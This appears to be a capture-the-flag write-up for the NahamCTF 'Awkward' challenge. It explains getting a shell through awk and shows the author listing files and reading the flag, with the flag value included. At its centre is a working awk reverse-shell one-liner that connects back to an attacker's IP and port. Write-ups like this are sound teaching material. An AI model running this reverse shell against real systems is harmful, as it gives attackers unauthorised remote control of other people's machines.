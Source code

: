 ```yaml
---
title: "NahamCTF: Awkward"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


*No output..? Awk-o-taco.*

*Connect here:*
*nc jh2i.com 50025*

---

For this challenge, we get a blank shell that only returns a number, and a message when we send a command:

```
whoami

0... Well this is awkward...
```

From the name of the challenge, we can assume that we need to use awk for this. We'll use a reverse shell from GTFOBins, to give ourselves access to the box. 

*Note: We need to have a publically facing IP address to connect back to in order to return a shell to ourselves.*

Reverse Shell:
```
awk -v RHOST=xx.xx.xx.xx  -v RPORT=xx 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT;while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

We can now check in the home directory for this flag:

```
> ls -lah
total 24K
dr-xr-xr-x 1 nobody nogroup 4.0K Jun  4 19:58 .
drwxr-xr-x 1 user   user    4.0K Jun  4 18:54 ..
-rw-r--r-- 1 nobody nogroup  220 Jun  4 18:54 .bash_logout
-rw-r--r-- 1 nobody nogroup 3.7K Jun  4 18:54 .bashrc
-rw-r--r-- 1 nobody nogroup  807 Jun  4 18:54 .profile
drwxr-xr-x 1 user   user    4.0K Jun  4 19:58 this_is_where_the_flag_is_plz_dont_bruteforce

> ls this_is_where_the_flag_is_plz_dont_bruteforce
flag.txt
> cat this_is_where_the_flag_is_plz_dont_bruteforce/flag.txt
flag{okay_well_this_is_even_more_awkward}
```

**flag{okay_well_this_is_even_more_awkward}**


